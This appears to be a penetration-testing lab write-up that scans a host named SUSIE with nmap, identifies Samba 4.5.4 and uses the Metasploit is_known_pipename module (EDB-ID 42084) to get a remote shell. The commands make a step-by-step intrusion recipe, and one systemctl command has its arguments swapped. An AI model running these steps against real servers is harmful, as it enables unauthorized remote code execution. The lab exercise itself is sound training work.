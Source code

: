Getting a Foothold

Getting a Foothold

# 1. NMAP Scans
TCP CONNECT scan for services on all ports reveals a Linux OS with hostname SUSIE, that uses Samba.
`sudo nmap -sV -sT -p- 10.11.1.146`
![c9920e6f286cd951c1288d72652e2696.png](../../../_resources/0be3d72aa6e146f19b376b922e9b7934.png)

Run an aggressive no ping scan on all ports that run scripts for default, safe, auth, and vuln. The
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.146`

The critical piece of info here comes from the smb-os-discovery output
![72713a0889a6cac3162d7042b05ab2a4.png](../../../_resources/d7b40afe8fe24236866eea59633cdefb.png)


#2. Google search the output from smb-os-discovery
Search term: **Windows 6.1 Samba 4.5.4**
![6c9b35fe1864ac50d8478322a8b65c56.png](../../../_resources/0cc5510b594e4e6ca826a2b84036335f.png)

Choose the exploit-db link. **EDB-ID: 42084**
Notice that it requires metasploit
[https://www.exploit-db.com/exploits/42084](https://www.exploit-db.com/exploits/42084)
![7eba9bf837a2378a971a7bb8e2e54c6f.png](../../../_resources/67a6cfa54b354170979b8813b89317ce.png)

# 3. Metasploit usage
Start postgresql
`sudo systemctl postgresql start`
![8f66e4a76a2291b7521eb2aa612e03ce.png](../../../_resources/d1227f7cd61e490497705c82c836144a.png)

Start the msfconsole without ascii banner
`sudo msfconsole -q`
![999d70f5a952d6a36f76881945062ff0.png](../../../_resources/1bdc1103ff9e467b90107b953233d8a8.png)

Search for 'is_known_pipename' and select it
`search is_known_pipename`
`use 0`
![5802c1285e97fd501b4cf2332bc25d91.png](../../../_resources/a1413088c270482cbde51be698bceb8d.png)

Show options
`show options`
![ec2a2e3df44ce540e1ababa9db36dec4.png](../../../_resources/b105380f7204498f99ee5733cfb665b1.png)

Change rhosts to the target IP
`set rhosts 10.11.1.146`
![5a756399c644783c794f69a0dbf59667.png](../../../_resources/96cd9edef449486e9f1d7fefa9718ba4.png)

Verify that the change to rhosts was made
`show options`
![2ca1d4c199a107b8a5b55e77cd47ab15.png](../../../_resources/e964807e8f4a47f7872ffc6318922657.png)

Check to see if the exploit will work
`check`
![0a38a7c3bafcb7628d9e6bc724e660ce.png](../../../_resources/c571b68d46bd4b659f24a3dfa4ad470d.png)

Run the exploit command. We get a shell!
`exploit`
![175b8bf179e86c11d004f951804c26f4.png](../../../_resources/9edeb38de05b4cd5a6a4b7a6b9da73d2.png)

